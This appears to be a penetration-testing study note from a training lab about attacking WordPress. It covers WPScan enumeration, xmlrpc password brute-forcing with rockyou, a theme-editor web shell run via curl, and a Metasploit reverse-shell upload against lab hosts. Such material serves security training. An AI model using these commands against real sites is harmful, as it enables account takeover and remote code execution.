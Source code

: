 # Wordpress

WordPress is an extremely common CMS. It is written in PHP and typically runs with  Apache and MySQL.

## Discovery/Enumeration

### Identify Wordpress

Robots.txt:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

The presence of /wp-admin and /wp-content directories are good indicators that the site is running wordpress.

Wappalyzer can also indicate what technologies the web app is using.

We can also look for wordpress in the source code of the page:

```shell-session
Adam-162@htb[/htb]$ curl -s http://blog.inlanefreight.local | grep WordPress

<meta name="generator" content="WordPress 5.8"  
```

### WPScan

WPScan can be used to automatically detect vulnerable plugins, themes, users, media, and backups. by retrieving a free plan API key, you can make up to 75 requests per day against the WPVulnDB to lookup vulnerabilities.&#x20;

```shell-session
Adam-162@htb[/htb]$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

### Wordpress User Accounts&#x20;

1. Administrator: This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code.
2. Editor: An editor can publish and manage posts, including the posts of other users.
3. Author: They can publish and manage their own posts.
4. Contributor: These users can write and manage their own posts but cannot publish them.
5. Subscriber: These are standard users who can browse posts and edit their profiles.

Getting access to an administrator is usually sufficient to obtain code execution on the server. Editors and authors might have access to certain vulnerable plugins, which normal users don’t.

### Enumerating Users

Default Wordpress login is found at /wp-login.

Attempt a few login attempts and see if the error message indicates that a user is not registered on the site. If this is the case, we can enumerate for valid usernames.&#x20;

### Login Brute Force&#x20;

There are two methods to login brute force/password spray -&#x20;

1. /wp-login
2. /xmlrpc.php

xmlrpc is preffered if available as it is faster.&#x20;

```shell-session
Adam-162@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```



### Plugins/Themes

Wordpress stores its plugins in wp-content/plugins directory, and themes are stored in wp-content/themes. these should be investigated for vulnerable plugins and themes which can lead to RCE.

Once we've compiled a list of potential plugins and themes, it's crucial to check for publicly disclosed vulnerabilities associated with these components. Sites like WPScan’s Vulnerability Database can be instrumental in identifying any known security issues, helping us determine potential vectors for exploitation.

Finding Plugins:

```shell-session
Adam-162@htb[/htb]$ curl -s http://blog.inlanefreight.local/ | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.8' id='subscriber-js-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.8' id='validation-engine-en-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.8' id='validation-engine-js'></script>
		<link rel='stylesheet' id='mm_frontend-css'  href='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.8' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/js/index.js?ver=5.4.2' id='contact-form-7-js'></script>
```

Identifying plugin versions:

Navigating too [http://blog.inlanefreight.local/wp-content/plugins](http://blog.inlanefreight.local/wp-content/plugins/mail-masta/)/\<plugin> and checking the readme.txt can give us information on the version of the plugin running.&#x20;

### Code Execution via Theme Editor

If you have managed to compromise an administrator account for the Wordpress installation, you can modify the PHP source code to execute system commands and possibly get a web shell or a reverse shell using the theme editor.&#x20;

Edit and save a secondary theme (as to not mess up the primary one the site is using) with our malicious code:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We can interact with it or execute the code by finding the edited theme page at /wp-content/themes/\<theme-name>.

Interact with it via the browser or CURL

```shell-session
Adam-162@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Code Execution via Theme Editor w/ Metasploit

You can also use metasploit to upload a malicious plugin and execute a PHP meterpreter shell.

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

### Exploiting Known Vulnerabilities&#x20;

Close to 90% of wordpress vulnerabilties are via Plugins. It is extremely important to collect a list of all plugins the wordpress site uses and research them for vulnerabilities.&#x20;
